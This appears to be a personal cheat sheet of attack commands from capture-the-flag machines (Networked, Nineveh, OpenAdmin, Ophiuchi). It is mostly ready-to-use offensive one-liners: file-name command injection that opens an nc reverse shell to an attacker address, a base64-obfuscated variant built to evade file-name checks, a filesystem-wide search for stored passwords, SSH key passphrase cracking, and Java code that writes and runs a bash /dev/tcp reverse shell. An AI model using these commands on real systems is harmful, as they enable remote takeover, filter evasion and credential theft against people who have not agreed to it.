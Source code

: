 Used in ```Networked```

command injection

```
# method1: vaild file name
echo "" > "; nc -c bash 192.168.0.1 4444 ;"
# method2: use base64 encoding format to avoid file name checking
echo nc -e /bin/bash 192.168.0.1 4444 | base64 -w0
echo "" > "a; echo bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguMC4xIDQ0NDQK | base64 -d | sh; b"
```

[base64](https://linux.die.net/man/1/base64)

```
-w, --wrap=COLS
    Wrap encoded lines after COLS character (default 76). Use 0 to disable line wrapping.
-d, --decode
    Decode data.
-i, --ignore-garbage
    When decoding, ignore non-alphabet characters.
--help
    display this help and exit
--version
    output version information and exit
```

Used in ```Nineveh```

```
# check information in image file
strings -n 20 <image file> 
# extract known file types 
binwalk <image file>
binwalk -e <image file>
```

Used in ```OpenAdmin```

find files containing specific text e.g. password

```
find / -type f \( -iname \*.php -o -iname \*.config -o -iname \*.conf -o -iname \*.ini -o -iname \*.txt \) -exec grep -i 'password\|passwd' {} \; -print 2>&-
```

crack SSH private key passphrase

```
ssh2john id_rsa > id_rsa.hash
john id_rsa.hash -wordlist=rockyou.txt
```

Used in ```Ophiuchi```

one line reverse shell command in Java

```Java
String[] cmdline = { "sh", "-c", "echo 'bash -i >& /dev/tcp/<attacker ip>/<attacker port> 0>&1' > /tmp/revshell.sh && chmod 777 /tmp/revshell.sh && bash /tmp/revshell.sh" }; 
Runtime.getRuntime().exec(cmdline);
```
